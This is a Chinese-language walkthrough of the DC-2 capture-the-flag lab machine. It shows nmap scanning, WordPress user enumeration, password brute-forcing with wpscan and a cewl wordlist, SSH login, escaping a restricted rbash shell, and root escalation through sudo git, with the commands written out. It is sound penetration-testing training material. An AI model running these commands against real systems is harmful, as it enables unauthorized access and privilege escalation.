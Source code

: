 # DC2靶机渗透

扫描网段存活主机

```
arp-scan -l
nmap -sP 192.168.3.62/24
nmap -sS 192.168.3.62/24
```

随便一种即可

![image-20211109115832385](images/1.png)

发现DC2的ip192.168.3.35

![image-20211109115911297](images/2.png)

80端口开启访问一下,重定向到了http://dc-2/

但是跳转页面无法访问将 ip 地址、域名 添加到 /etc/hosts 文件

发现开了80端口却无法访问，是重定向到dc-2域名，可改hosts文件配置dns解析访问，添加ip对应域名

```
win10路径：C:\Windows\System32\drivers\etc\hosts

linux路径：/etc/hosts
```

![image-20211109120511917](images/3.png)

![image-20211109121003144](images/4.png)

重新访问发现页面是WordPress的默认页面

![image-20211109121106018](images/5.png)

用Chrome的插件也可以看到

![image-20211109121214564](images/6.png)

访问Flag![image-20211109121121752](images/7.png)

```
你通常的词表可能不起作用，所以，也许你只需要cewl。

密码越多越好，但有时你不可能赢得所有密码。

以一个身份一个登录以查看下一个标志。

如果找不到，请以其他用户身份登录。
```

先简单的扫一下目录

```
nikto -h 192.168.3.35
dirb http://dc-2/
```

随便选一种即可,用御剑和dirsearch也可以

扫到了wp-login.php

![image-20211109130606730](images/8.png)

进入到登陆界面

![image-20211109130642204](images/9.png)

用wpscan进行用户爆破

```
wpscan --url http://dc-2 -e u
```

爆破出来了三个用户名

![image-20211109132212670](images/10.png)

flag1提示用cewl生成字典

```
cewl http://dc-2 -w passwds.txt
或者
cewl hhtp://dc-2 > passwds.txt
```

![image-20211109132408958](images/11.png)

接下来再爆破一下密码

```
wpscan --url http://dc-2 -P passwds.txt
```

![image-20211109132632407](images/12.png)

爆破出了jerry和tom的密码

登陆找到flag2

![image-20211109132740399](images/13.png)

这里说如果你不能用WordPress走捷径,这里有另外一种方法希望你能找到它

登陆tom也是一样

这里因为是我们之前的nmap扫描端口的时候没有扫描完全

`nmap -p- 192.168.3.35` 扫描所有范围的端口

![image-20211109133131584](images/14.png)

发现了7744端口,但是并没有扫描出是什么服务

```
nmap -sV -p- 192.168.3.35
```

![image-20211109133239693](images/15.png)

发现这个端口是ssh服务,尝试用之前爆破出来的用户名和密码登陆ssh

```
ssh jerry@192.168.3.35 -p 7744
ssh tom@192.168.3.35 -p 7744
```

登陆jerry的时候发现密码错误,应该是ssh和WordPress的密码不一样,但是登陆tom的时候成功

![image-20211109133655091](images/16.png)

这里发现了flag3.txt

![image-20211109133802986](images/17.png)

但是当我cat的时候报出了rbash错误,vim也不行

网上搜到这里的rbash是可以绕过的,而且这里的flag3.txt可以直接用vi命令打开

![image-20211109134115447](images/18.png)

![image-20211109134106032](images/19.png)

绕过rbash的第一种方法,vi编辑器

```
vi：set shell=/bin/sh
运行shell:shell
```

![image-20211109134338935](images/20.png)

进入shell

![image-20211109134356195](images/21.png)

执行如下命令

```
export PATH=/usr/sbin:/usr/bin:/sbin:/bin
```

![image-20211109134451812](images/22.png)

成功绕过

第二种方法

```
BASH_CMDS[a]=/bin/sh;a  注：把/bin/bash给a变量`
export PATH=$PATH:/bin/    注：将/bin 作为PATH环境变量导出
export PATH=$PATH:/usr/bin   注：将/usr/bin作为PATH环境变量导出
```

一样能够绕过rbash

![image-20211109134657599](images/23.png)

tom和Jerry是两个用户,提示使用su切换用户

直接su也是不行的,也需要绕过rbash,这里我rbash已经绕过了,直接切换到jerry用户,密码是刚才爆破出来的密码

![image-20211109135609297](images/24.png)

返回上一个目录

![image-20211109135645342](images/25.png)

进入jerry的用户目录

![image-20211109135712436](images/26.png)

发现flag4.txt

![image-20211109135731184](images/27.png)

提示了git,可能是要提权了,看看SUID权限有哪些

```
find / -perm -u=s 2>/dev/null
```

![image-20211109140022959](images/28.png)

并没有发现git

`sudo -l`发现git不需要root权限就可以执行

![image-20211109140056108](images/29.png)

```
sudo git -p config # -p强制进入交互模式
!/bin/sh
```

![image-20211109140848052](images/30.png)

进入root目录发现最后一个flag

![image-20211109140908788](images/31.png)

参考链接

https://blog.csdn.net/Huangshanyoumu/article/details/115771158

https://icode9.com/content-4-1092275.html

https://cloud.tencent.com/developer/article/1666654)


